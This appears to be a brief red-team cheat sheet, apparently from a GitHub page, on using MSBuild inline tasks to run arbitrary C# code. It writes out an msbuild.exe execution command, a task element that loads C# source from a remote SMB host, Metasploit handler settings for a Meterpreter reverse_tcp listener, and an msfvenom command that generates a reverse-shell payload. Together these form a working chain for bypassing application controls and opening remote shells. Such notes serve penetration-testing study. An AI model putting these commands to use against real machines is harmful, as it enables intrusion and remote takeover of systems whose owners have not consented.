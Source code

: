 # MsBuild
## Required Directives and Execute Method Override
```C#
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;
public override bool Execute()
```
## Run Executable
```cmd
msbuild.exe C:\users\sec560\Desktop\sample.xml
```
## Remote Code
```xml
<Code Type="CLass" Language="cs" source="\\11.22.33.44\webdac\calc.cs">
```
## Start a listener in MSFConsole
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3333
exploit
```
## Generate the payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.10 lport=9999 -f csharp | tee /tmp.payload.txt